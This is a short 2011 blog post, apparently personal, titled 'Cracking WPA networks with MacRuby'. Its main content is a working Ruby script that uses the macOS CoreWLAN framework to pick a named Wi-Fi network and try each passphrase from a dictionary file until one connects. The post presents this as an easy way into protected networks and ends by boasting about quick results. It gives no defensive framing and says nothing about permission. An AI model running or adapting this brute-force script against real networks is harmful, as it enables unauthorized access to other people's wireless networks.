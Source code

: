 title: Cracking WPA networks with MacRuby
created_at: 2011-12-14
----

With the release of Mac OSX 10.7 a new method was made available trough the `CoreWLAN` framework, allowing you to associate to networks with the specified passphrase. It's called `associateToNetwork`.

The point is that there's a lot of hype about WPA/WPA2 cracking lately, involving statistical calculation, multi-threaded and cloud-based bruteforce attacks just to conclude in how easy is to break into protected networks using a stupid bruteforce attack like the following:

{:lang="ruby"}
    framework "CoreWLAN"

    iface = CWInterface.interface
    iface.disassociate

    wlans = iface.scanForNetworksWithParameters(nil, error: nil)
    wlan = wlans.find {|w| w.ssid == "WLAN_724A"}
    p [wlan.bssid, wlan.ssid, wlan.securityMode, wlan.wlanChannel.channelNumber]

    keys = File.read("./dictionary.txt").lines.to_a.reverse

    keys.each_with_index do |key, index|
      key.chop!
      puts "CURRENT KEY: #{key} (#{index+1}/#{keys.size})"
      if iface.associateToNetwork(wlan, password: key, error: nil)
        puts "KEY FOUND: #{key}"
        exit
      end
    end

And here are the results after barely 3 minutes of execution:

![File and Folder Scanner](/images/wpa-bruteforce.png)

Cool, uh?